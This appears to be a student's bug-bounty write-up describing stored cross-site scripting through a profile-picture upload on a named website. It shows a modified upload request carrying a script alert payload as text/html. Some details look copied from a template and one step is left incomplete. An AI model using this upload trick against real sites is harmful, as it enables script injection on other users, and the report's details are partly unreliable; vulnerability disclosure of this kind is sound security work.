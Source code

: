 # Major Project - Bug hunting on any target of openbugbounty
## Name - Varchasva Khare
### Team Members - [Ishan Amrit](https://github.com/IshanAmrit28), [Navya Pillai]()

## Issue Description
- Target website we got on [openbugbounty](openbugbounty.org) - [beachhouse.com](beachhouse.com)
- Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. 

## Issue Identified
- The consultant identified that the update profile picture is vulnerable to cross site scripting, it is possible to upload an image with a MIME type of `text/html` this is then stored on the user's profile as an XSS payload, the outline below demonstrates the steps taken to exploit and reproduce.

## Risk Breakdown
- Risk: **High**
 
- Difficulty to Exploit: **Medium**
 
- CVSS2 Score: [**7.9**](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:S/C:C/I:C/A:N))

## Steps to Reproduce
The following steps indicate a proof of concept outlined in three(3) steps to reproduce and execute the issue.

**Step 1:**
Navigate to [https://www.beachhouse.com/portal/reg.php](https://www.beachhouse.com/portal/reg.php) and select edit as shown in screenshot attached below.

<img src="https://github.com/varchasvakhare2022/Corizo-Internship-Projects/blob/master/images/s1.png">

**Step 2:**
Modify the profile image request with a local proxy, in this case the consultant is using Burp Suite. Change the Content type from image to text/html as shown in the post request:

    POST /file/upload/ HTTP/1.1
    Host: beachhouse.com
    ---snip----
    
    -----------------------------900627130554
    Content-Disposition: form-data; name="stored_XSS.jpg"; filename="stored_XSS.jpg"
    Content-Type: text/html
    
    <script>alert('ZephrFish')</script>
    -----------------------------900627130554

When this is sent, the following response is shown:

    HTTP/1.1 200 OK
    Date: Tue, 02 May 2023 14:31:44 GMT
    ---snip---
    
    {"url": "https://example.com/56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg?Expires=1465669904&Signature=dNtl1PzWV&Key-Pair-Id=APKAJQWLJPIV25LBZGAQ", "pk": "56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg", "success": true}

**Step 3:**
The file has been uploaded to a Application and is hyperlinked to from the profile page. By simply following the link to the image which in this case is:

The payload is executed, thus this demonstrates the issue is stored cross site scripting.

## Affected Demographic
This issue will affect all users on the site who view the profile of the attacker, when the image is rendered the payload is executed instead of a profile image. Additionally when the malicious user posts anything on the forums the payload will execute.

## References
For more information check out reference [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)).

 - [1] [OWASP XSS Explained](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [2] [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
